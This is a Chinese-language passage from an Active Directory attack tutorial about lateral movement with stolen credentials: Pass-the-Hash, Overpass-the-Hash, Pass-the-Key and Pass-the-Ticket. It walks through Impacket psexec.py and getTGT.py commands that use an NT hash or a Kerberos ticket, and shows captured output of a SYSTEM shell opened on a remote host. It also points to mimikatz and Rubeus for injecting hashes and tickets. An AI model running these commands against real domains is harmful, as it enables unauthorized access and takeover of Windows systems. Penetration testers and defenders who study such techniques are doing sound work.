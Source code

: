 执行命令通常只需要445（SMB）开着，类似[wmiexec.py ](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)需要135(RPC over TCP)开着

用NT or LM哈希也能实施Pass-The-Hash，impacket tools有一个参数直接使用NT or LM哈希，为了和PsExec一起使用，需要用minikatz在window session中注入NT哈希（ [inject the NT hash in the Windows session with mimikatz](https://stealthbits.com/blog/passing-the-hash-with-mimikatz/).）

```cmd
### psexec.py with a NT hash
$ psexec.py contoso.local/Anakin@192.168.100.10 -hashes :cdeae556dc28c24b5b7b14e9df5b6e21
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 192.168.100.10.....
[*] Found writable share ADMIN$
[*] Uploading file WFKqIQpM.exe
[*] Opening SVCManager on 192.168.100.10.....
[*] Creating service AoRl on 192.168.100.10.....
[*] Starting service AoRl.....
[!] Press help for extra shell commands
The system cannot find message text for message number 0x2350 in the message file for Application.

(c) Microsoft Corporation. All rights reserved.
b'Not enough memory resources are available to process this command.\r\n'
C:\Windows\system32>whoami
nt authority\system
```

这样的话你就在用[NTLM](https://zer1t0.gitlab.io/posts/attacking_ad/#ntlm)作为认证机制，这在[Kerberos](https://zer1t0.gitlab.io/posts/attacking_ad/#kerberos)被默认使用的AD中并不是最好的选择

要用Kerberos 的话你需要在这些工具中提供Kerberos 票据，如果用Impacket， [set a ccache file to being used by impacket](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a#using-ticket-in-linux) （ccache（compiler cache）），在windows里的话需要用 [mimikatz](https://github.com/gentilkiwi/mimikatz) or [Rubeus](https://github.com/GhostPack/Rubeus)来 [inject the ticket in the session](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a#using-ticket-in-windows)

（ **Impacket**是用于处理网络协议的Python类的集合）

为了拿到Kerberos 票据来使用，可以用用户密码请求一个；NT hash (Overpass-the-Hash) or the Kerberos keys (Pass-The-Key) ；或者在 [Windows](https://zer1t0.gitlab.io/posts/attacking_ad/#lsass-credentials) or [Linux](https://zer1t0.gitlab.io/posts/attacking_ad/#linux-kerberos-tickets) 偷一个 (Pass-The-Ticket)

[ticket_converter](https://github.com/Zer1t0/ticket_converter) or [cerbero ](https://github.com/Zer1t0/cerbero#convert)可以转化win和linux的票据文件格式

```cmd
###psexec.py with Kerberos authentication

$ getTGT.py contoso.local/Anakin -dc-ip 192.168.100.2 -hashes :cdeae556dc28c24b5b7b14e9df5b6e21
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Saving ticket in Anakin.ccache
$ export KRB5CCNAME=$(pwd)/Anakin.ccache
$ psexec.py contoso.local/Anakin@WS01-10 -target-ip 192.168.100.10 -k -no-pass
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 192.168.100.10.....
[*] Found writable share ADMIN$
[*] Uploading file TwIEeeqd.exe
[*] Opening SVCManager on 192.168.100.10.....
[*] Creating service ZQZb on 192.168.100.10.....
[*] Starting service ZQZb.....
[!] Press help for extra shell commands
The system cannot find message text for message number 0x2350 in the message file for Application.

(c) Microsoft Corporation. All rights reserved.
b'Not enough memory resources are available to process this command.\r\n'
C:\Windows\system32>
```